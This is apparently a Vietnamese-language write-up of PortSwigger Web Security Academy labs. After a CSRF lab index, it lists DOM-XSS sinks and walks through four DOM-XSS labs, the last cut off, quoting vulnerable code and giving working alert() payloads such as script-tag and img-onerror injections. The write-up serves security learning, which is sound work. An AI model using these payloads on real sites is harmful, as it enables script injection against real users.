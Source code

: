 


* [Portswigger - Cross-site scripting](#pxss)


* [Portswigger - Cross-site request fogery](#pcsrf)
  - [1. CSRF vulnerability with no defenses](#pcsrf1)
  - [2. CSRF where token validation depends on request method](#pcsrf2)
  - [3. CSRF where token validation depends on token being present](#pcsrf3)
  - [4. CSRF where token is not tied to user session](#pcsrf4)
  - [5. CSRF where token is tied to non-session cookie](#pcsrf5)
  - [6. CSRF where token is duplicated in cookie](#pcsrf6)
  - [7. SameSite Lax bypass via method override](#pcsrf7)
  - [8. SameSite Strict bypass via client-side redirect](#pcsrf8)
  - [9. SameSite Strict bypass via sibling domain](#pcsrf9)
  - [10. SameSite Lax bypass via cookie refresh](#pcsrf10)
  - [11. CSRF where Referer validation depends on header being present](#pcsrf11)
  - [12. CSRF with broken Referer validation]()
   
## [1. CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)<a name='pcsrf1'></a>


# DOM-based vulnerabilities

Which sinks can lead to DOM-XSS vulnerabilities?

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

```
The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

## 1. DOM-based XSS 

###  1. Lab: DOM XSS in document.write sink using source location.search
 
Bài này sử dụng sink là document.write với souce từ location.search, có source code: 

![image](https://user-images.githubusercontent.com/104350480/224482812-01b1a31a-60be-45dd-bf1d-1a7029b029b5.png)

```
<script>
function trackSearch(query) {
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
</script>

```
Ta biết rằng có thể thực thi được code bên trong document.write() và cả nhiều script nên ở đây bypass đơn giản bằng cách dùng payload: 

"><script>alert(1)</script>

### [2. Lab: DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

![image](https://user-images.githubusercontent.com/104350480/224484597-6a2fc99a-eaea-4f6e-86dc-77be550f4cf8.png)

```
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
                            
```
source ở đây là location.search và sink ở đây là document.write, ở đây ta sẽ thực hiện xss ngay ở document.write đầu tiên bằng cách đóng tag <select> lại và thêm <script> vào
> mục tiêu là thực hiện document.write với : '<select name =""></select><script>alert(1)</script>'

Ta truyền tham số trên url để thực thi: ?productId=1&storeId="</select><script>alert(1)</script>

### [3. Lab: DOM XSS in innerHTML sink using source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

![image](https://user-images.githubusercontent.com/104350480/224485700-4b5dcee3-3309-4c1e-acdc-bb59990405ac.png)

soucre ở đây là location.search còn sink ở đây là innerHTML
innerHTML là một thuộc tính của các đối tượng HTML trong JavaScript, nó cho phép ta truy cập và chỉnh sửa nội dung HTML bên trong một phần tử HTML và ngoài ra Thuộc tính innerHTML trong JavaScript có thể thực thi được hầu hết các loại nội dung HTML, bao gồm các thẻ HTML, văn bản, hình ảnh, video, âm thanh và các phần tử khác của trang web.
Nên ta có thể tiêm script vào đây để thực thi alert, tuy vậy thì innerHTML nó block đi phần tử <script> nên ở đây  ta có thể dùng tag <img> or <svg> thay thế

> payload: <img src=0 onerror=alert(1)> or <svg><animate onbegin=alert(1)>

### [4. Lab: DOM XSS in jQuery anchor href attribute sink using location.search source](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)

Bài lab này chứa dom-based xss 

Kiểm tra mã nguồn:
![image](https://user-images.githubusercontent.com/104350480/224487372-765a1c62-75b5-4483-a08c-b2f20c02ebd5.png)




